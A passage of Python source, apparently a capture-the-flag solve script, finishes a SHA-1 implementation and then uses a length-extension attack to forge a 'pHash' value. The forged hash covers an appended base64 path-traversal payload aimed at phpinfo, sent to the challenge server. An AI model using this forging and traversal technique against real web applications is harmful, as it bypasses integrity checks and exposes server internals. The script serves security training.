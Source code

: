 ```python
            e = d
            d = c
            c = rotl(b, 30)
            b = a
            a = temp

        h0 = add([h0, a])
        h1 = add([h1, b])
        h2 = add([h2, c])
        h3 = add([h3, d])
        h4 = add([h4, e])

    return (h0, h1, h2, h3, h4)

def pad(msg, sz = None):
    if sz == None:
        sz = len(msg)
    bits = sz * 8
    padding = 512 - ((bits + 8) % 512) - 64

    msg += b"\x80"  # append bit "1", and a few zeros.
    return msg + int(padding / 8) * b"\x00" + struct.pack(">q", bits)  # don't count the \x80 here, hence the -8.

def sha1(msg):
    # These are the constants in a standard SHA-1
    return sha1_impl(pad(msg), 0x67452301 , 0xefcdab89 , 0x98badcfe , 0x10325476 , 0xc3d2e1f0)

# "Local Card Maker"-specific implementation starts here:

def sha1_bytes_to_str(result):
    return ''.join([hex(x)[2:].zfill(2) for x in result])

def get_h_values(hash_string):
    # Divide hash_string to 5 ints, 4 bytes each
    return [int(hash_string[i*8:(i+1)*8], 16) for i in range(5)]

# "view_profile" taken from site ("page" query parameter)
block_1_buf = b"dmlld19wcm9maWxl"
# Hash taken from site ("pHash" query parameter)
block_1_hash = b"7b6f8b016f25da478b9f28f878aa3be8cced66fd"
block_1_h_values = get_h_values(block_1_hash)
# taken from description of challenge
salt_len = 23

# "aaa" is padding, since the previous SHA-1 block contains the length at the end which is parsed by PHP as Base64 data.
# I align to 4 bytes in order for the appended path to be parsed correctly.
block_2_buf = b"aaa" + base64.encodebytes(b"/.././././././././phpinfo").replace(b"\n", b"")
# Pad this second block, use a custom size with additional 64 bytes to account for the first block (which is always padded to 64)
block_2_buf_padded = pad(block_2_buf, len(block_2_buf) + 64)
joined_buf_hash = sha1_bytes_to_str(sha1_impl(block_2_buf_padded, *block_1_h_values))
print(joined_buf_hash)
# Add 23 "A"s to simulate the SHA-1 block creation with the salt, but remove the salt since it'll be added by the server.
joined_buf = pad((b"A" * salt_len) + block_1_buf)[salt_len:] + block_2_buf
encoded_joined_buf = urllib.parse.quote_plus(joined_buf)
print(encoded_joined_buf)

print(requests.get("http://challenges1.thcon.party:2001/index.php?page=%s&pHash=%s" % (encoded_joined_buf, joined_buf_hash)).content)
```